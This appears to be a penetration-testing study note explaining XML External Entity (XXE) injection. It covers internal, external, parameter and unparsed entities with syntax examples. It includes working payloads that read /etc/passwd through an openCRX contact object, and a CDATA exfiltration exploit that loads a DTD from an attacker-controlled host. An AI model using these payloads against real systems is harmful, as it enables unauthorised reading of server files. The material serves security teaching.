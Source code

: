 An XML External Entity attack is a type of attack against an application that parses XML input. 
This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. 

This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.

In a typical XXE injection, the attacker forces the XML parser to process one or more external entities. 
This can result in the disclosure of confidential information not normally accessible by the application. 
That means the main prerequisite for the attack is the ability to feed a maliciously-crafted XML request containing system identifiers that point to sensitive data to the target XML processor.

Additionally, depending on the application's programming language and the available protocol wrappers, it may be possible to leverage this attack for full command injection.

- https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#exploiting-xxe-to-retrieve-files

## XML Entities

From the attacker's perspective, Document Type Definitions (DTDs) are an interesting feature of XML. 
DTDs can be used to declare XML entities within an XML document. 

In very general terms, an XML entity is a data structure typically containing valid XML code that will be referenced multiple times in a document.


XML supports CDATA sections in which internal contents arenot treated as markup. 
A CDATA section starts with `<![CDATA[` and ends with `]]>`. 

Anything between the tags is treated as text. 
If we can wrap file contents in CDATA tags, the parser will not treat it as markup.

## Internal Entities

Internal entities are locally defined within the DTD. 
Their general format is as follows:

```xml
<!ENTITY name "entity_value">
```

This is a very trivial example of an internal entity:
```xml
<!ENTITY test "<entity-value>test value</entity-value>">
```

## External Entities

By definition, external entities are used when referencing data that is not defined locally. 
As such, a critical component of the external entity definition is the URI from which the external data will be retrieved.

External entities can be split into two groups, namely private and public. 
The syntax for a private external entity is:
```xml
<!ENTITY name SYSTEM "URI">
```

This is an example of a private external entity:

```xml
<!ENTITY myinfo SYSTEM"http://somesite.com/somedoc.xml">
```

In contrast, public external entities are intended for a much wider audience. 
The syntax for a public external entity is:

```xml
<!ENTITY name PUBLIC "public_id" "URI">
```

This is an example of a public external entity:

```xml
<!ENTITY myinfo PUBLIC "-//W3C//TEXT companyinfo//EN" "http://somesite.com/somedoc.xml">
```

## Parameter Entities

Parameter entities exist solely within a DTD, but are otherwise very similar to any other entity. 
Their definition syntax differs only by the inclusion of the %prefix:

```xml
<!ENTITY % name SYSTEM "URI">
<!ENTITY % course 'AWAE'>
<!ENTITY Title 'Offensive Security presents %course;' >
```

## Unparsed External Entities

An XML entity does not have to contain valid XML code. It can contain non-XML data as well. 
In those instances, we have to prevent the XML parser from processing the referenced data by using the NDATA declaration. 
The following formats can be used for both public and private external entities.

```xml
<!ENTITY name SYSTEM "URI" NDATA TYPE>
<!ENTITY name PUBLIC "public_id" "URI" NDATA TYPE>
```

We can access binary content with unparsed entities.

### Examples

When an XML parser encounters an entity reference, it replaces the reference with the entity’s value.

```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname "Replaced">
]>
<Contact>
 <lastName>&lastname;</lastName>
 <firstName>Tom</firstName>
</Contact>
```

When the XML above is parsed, the parser replaces the entity reference `&lastname;` with the entity’s value `Replaced`. 
If an application used the results and displayed the contact’s name, it would display `Tom Replaced`.
 
This example uses an internal entity.
What if we change the XML entity to an external entity and reference a file on the server?

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<org.opencrx.kernel.account1.Contact>
 <lastName>&lastname;</lastName>
 <firstName>Sarah</firstName>
</org.opencrx.kernel.account1.Contact>
```

If the application is vulnerable to XXE, we want to make sure we can observe the results of the XXE attack. 
Ideally, we would inject the XXE payload into a field that is displayed in the web application.

### CDATA XXE Exploit Example

```bash
kali@kali:/opencrx$ sudo cat /var/www/html/wrapper.dtd
<!ENTITY wrapper "%start;%file;%end;">

<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///etc/passwd" >
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://192.168.119.120/wrapper.dtd">
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&wrapper;</lastName>
  <firstName>Sarah</firstName></org.opencrx.kernel.account1.Contact>
```